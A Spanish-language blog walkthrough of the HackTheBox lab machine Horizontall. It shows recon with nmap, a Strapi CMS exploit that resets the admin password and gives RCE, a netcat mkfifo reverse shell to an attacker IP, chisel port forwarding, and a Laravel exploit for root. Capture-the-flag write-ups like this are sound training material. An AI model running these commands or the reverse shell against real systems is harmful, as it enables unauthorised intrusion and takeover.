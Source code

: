 ```yaml
---
layout      : post
title       : "Horizontall - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
optimized_image : /assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
category    : [ htb ]
tags        : [ Linux ]
description: 🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.
---
```


🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Enumeración Web](#enumeración).
3. [Explotación](#explotación).
4. [Escalada de Privilegios](#priv-esc).

Ya es hora de estar hack asique al liooo a romper la máquina Horizontall!!!!!

![](/assets/images/HTB/Horizontall-HackTheBox/hack.gif)


# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre comienzo lanzando la herramienta whichsystem.py para identificar el sistema operativo de la máquina a la que me voy a enfrentar.

Esta herramienta se basa en el TTL (Time To Live).

```html
# Windows --> TTL 128
---------------------
# Linux --> TTL 64
```

```r
❯ whichSystem.py 10.10.11.105

	10.10.11.105 (ttl -> 63): Linux
```

Una vez ya se que me enfrento a una máquina Linux procedo al escaneo de puertos convenvencional con la herramienta nmap.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Existen solo dos puertos abiertos, el puerto 80 (http) y el puerto 22 ssh.

Pero necesito más información acerca de estos puertos por lo que debo realizar un escaneo un poco más detallado...

```bash
# Escaneo para detectar versiones del servicio que corre en cada puerto
nmap -p80,22 -n -Pn -sCV 10.10.11.105 -oN versiones

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A continuación dejo en una tabla la información relevante que he extraido del escaneo nmap.

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | nginx 1.14.0 |

> Dominio horizontall.htb 

Añado el dominio encontrado al archivo /etc/hosts.

# Enumeración Web [#](enumeración) {#enumeración}

Una vez añadido lo siguiente es proceder con la enumeración web, ya que existe el puerto 80 abierto.

Accedo al dominio desde el navegador para ojear un poco la web.

![](/assets/images/HTB/Horizontall-HackTheBox/web1.webp)

Tras investigar un poco no encuentro nada relevante, por lo que decido fuzzear rutas en el servidor, en este caso usaré gobuster.

![](/assets/images/HTB/Horizontall-HackTheBox/gobuster.webp)

Tras fuzzear no encuentro nada interesante por lo que solo se me ocurre fuzzear para encontrar algún vhost, y en esta ocasión lo haré con la herramienta wfuzz.

Pero tampoco encuentro ningún vhost, por lo que vuelvo al navegador y procedo a mirar el código fuente de la web, descubriendo que hay varios archivos .js.

Tras buscar durante un rato encuentro un vhost dentro de uno de los archivos .js

Dentro de la ruta: `http://horizontall.htb/js/app.c68eb462.js`

> api-prod.horizontall.htb

Añado el vhost al archivo /etc/hosts y abro el navegador de nuevo para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/web2.webp)

No hay nada más por lo que fuzzeo de nuevo para descubrir rutas en el servidor.

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000128:   200        0 L      21 W       507 Ch      "reviews"                                                                                                                  
000000250:   200        16 L     101 W      854 Ch                   "admin"                                                                                                                    
000001600:   200        0 L      21 W       507 Ch      "Reviews" 
```

Accedo a la ruta admin que seguramente será un login y podría obtener algo de información sobre la web.

![](/assets/images/HTB/Horizontall-HackTheBox/login.webp)


# Explotación [#](explotación) {#explotación}

Puedo ver que estoy ante un cms llamado strapi, por lo que lo primero que haré será buscar alguna vulnerabilidad.

![](/assets/images/HTB/Horizontall-HackTheBox/searchsploit.webp)

Encuentro dos exploits, y no necesito estar autenticado, por lo que uso uno de ellos, en concreto el que esta programado en python.

Este exploit lo que hace es cambiar las credenciales de acceso y me otorgaría acceso al panel de strapi, además de la posibilidad de ejecutar comandos, es decir RCE.

Una vez lo tengo lo ejecuto:

```bash
❯ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjcwODg1MjAzLCJleHAiOjE2NzM0NzcyMDN9.TzMLnnxxwD-dM_EsAHrqjxnC3m-GiBDKf1tRGtc-XsM
```

Aprovechando el RCE que me otorga el exploit, introduzco una reverse shell netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
```

```bash
$>  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

Y porfin consigo acceso al sistema.

![](/assets/images/HTB/Horizontall-HackTheBox/shell.webp)

A continuación actulizo la tty para tener una shell más interactiva y funcional.


# Escalada de Privilegios [#](priv-esc) {#priv-esc}


Lanzo linpeas.sh para encontrar una vía potencial de escalada de privilegios.

![](/assets/images/HTB/Horizontall-HackTheBox/linpeas.webp)

Tras lanzarlo encuentro que el puerto 8000 se encuentra abierto en el sistema, por lo que hago un curl a la ip y al puerto para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel.webp)

Descubro que en el puerto 8000 corre Laravel v8 (PHP v7.4.18), por lo que busco si existe alguna vulnerabilidad para escalar privilegios.

Buscando información encuentro el siguiente exploit.

Por lo que lo descargo y lo ejecuto.

![](/assets/images/HTB/Horizontall-HackTheBox/exploit.webp)

Pero me arroja un error al lanzarlo, por lo que decido usar chisel para poder traerme el puerto de la máquina víctima a la mía.

Por lo que primero descargo chisel en mi máquina y luego lo paso a la máquina víctima ya que será necesario ejecutarlo en las dos máquinas.

```bash
# En la máquina atacante

./chisel server --reverse -p 1234
```

```bash
# En la máquina víctima

./chisel client http://10.10.14.12:1234 R:8001:127.0.0.1:8000
```

Una vez ejecutamos los dos comandos ya podremos acceder desde nuestra máquina atacante al puerto 8000 donde se encuentra laravel.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel2.webp)

Ahora ya puedo ejecutar el exploit desde mi máquina atacante.

![](/assets/images/HTB/Horizontall-HackTheBox/root.webp)

![](/assets/images/HTB/Horizontall-HackTheBox/pwned.webp)



